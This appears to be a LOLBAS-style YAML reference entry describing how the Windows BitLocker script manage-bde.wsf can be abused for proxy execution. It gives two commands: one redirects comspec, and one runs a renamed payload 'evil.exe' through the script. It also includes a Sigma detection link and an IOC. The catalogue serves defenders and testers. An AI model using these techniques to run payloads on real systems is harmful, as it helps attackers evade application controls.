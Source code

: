 ```yaml
---
Name: Manage-bde.wsf
Description: Script for managing BitLocker
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: set comspec=c:\windows\system32\calc.exe & cscript c:\windows\system32\manage-bde.wsf
    Description: Set the comspec variable to another executable prior to calling manage-bde.wsf for execution.
    Usecase: Proxy execution from script
    Category: Execute
    Privileges: User
    MitreID: T1216
    OperatingSystem: Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: EXE
  - Command: copy c:\users\person\evil.exe c:\users\public\manage-bde.exe & cd c:\users\public\ & cscript.exe c:\windows\system32\manage-bde.wsf
    Description: Run the manage-bde.wsf script with a payload named manage-bde.exe in the same directory to run the payload file.
    Usecase: Proxy execution from script
    Category: Execute
    Privileges: User
    MitreID: T1216
    OperatingSystem: Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: EXE
Full_Path:
  - Path: C:\Windows\System32\manage-bde.wsf
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_lolbin_manage_bde.yml
  - IOC: Manage-bde.wsf should not be invoked by a standard user under normal situations
Resources:
  - Link: https://gist.github.com/bohops/735edb7494fe1bd1010d67823842b712
  - Link: https://twitter.com/bohops/status/980659399495741441
  - Link: https://twitter.com/JohnLaTwC/status/1223292479270600706
Acknowledgement:
  - Person: Jimmy
    Handle: '@bohops'
  - Person: Daniel Bohannon
    Handle: '@danielbohannon'
  - Person: John Lambert
    Handle: '@JohnLaTwC'
---
```

